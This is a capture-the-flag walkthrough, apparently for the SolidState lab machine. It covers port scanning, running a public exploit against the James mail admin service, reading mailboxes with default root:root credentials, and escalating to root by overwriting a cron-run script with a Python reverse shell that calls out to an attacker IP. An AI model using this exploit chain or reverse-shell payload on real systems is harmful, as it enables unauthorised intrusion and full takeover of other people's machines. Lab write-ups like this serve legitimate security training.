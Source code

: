 # SolidState - Walkthrough (Linux)

## 🧱 Initial Foothold

### 1️⃣ Nmap Scan
- Discovered uncommon port **4555** open.
- Connected with netcat:
  ```bash
  nc 10.129.164.204 4555
  ```

### 2️⃣ JAMES Remote Administration Tool 2.3.2
- Identified service: **JAMES Remote Administration Tool v2.3.2**
- Searched exploit:
  ```bash
  searchsploit JAMES Remote Administration Tool 2.3.2
  ```

- Found and used exploit: **50347.py**
  ```bash
  python3 50347.py 10.129.164.204 10.10.16.52 119
  ```

### 3️⃣ Accessing Mailboxes
- Reconnected to port 4555 as `root:root`
- Changed user passwords
- Connected to port **110 (POP3)** using Telnet to read mail:
  ```bash
  telnet 10.129.164.204 110
  ```

- Found credentials for **mindy** in user mailbox
- SSH'ed using `mindy`'s credentials while listener was active on port **119**

---

## ⚙️ Privilege Escalation

### 🔍 1. Enumeration with pspy
- Ran `pspy32s` to monitor root cron jobs
- Observed a scheduled script:
  ```bash
  /opt/tmp.py
  ```

### 🧪 2. Prepping Shell for Editing
- Used `script` to gain nano editing ability in the limited shell:
  ```bash
  script -qc /bin/bash
  # Press Ctrl+Z
  stty raw -echo ; fg
  export TERM=xterm-256color
  ```

### ✏️ 3. Modify the tmp.py Script
- Replaced `/opt/tmp.py` with a reverse shell payload:
  ```python
  #!/usr/bin/env python
  import os
  os.system('busybox nc 10.10.16.52 80 -e bash')
  ```

- Started listener:
  ```bash
  nc -nlvp 80
  ```

- Got root shell once the cron executed the script.

---

## ✅ Summary

- Unusual admin port led to exploit of mail server
- Found credentials via email access
- Escalated privileges by hijacking root cronjob with Python reverse shell
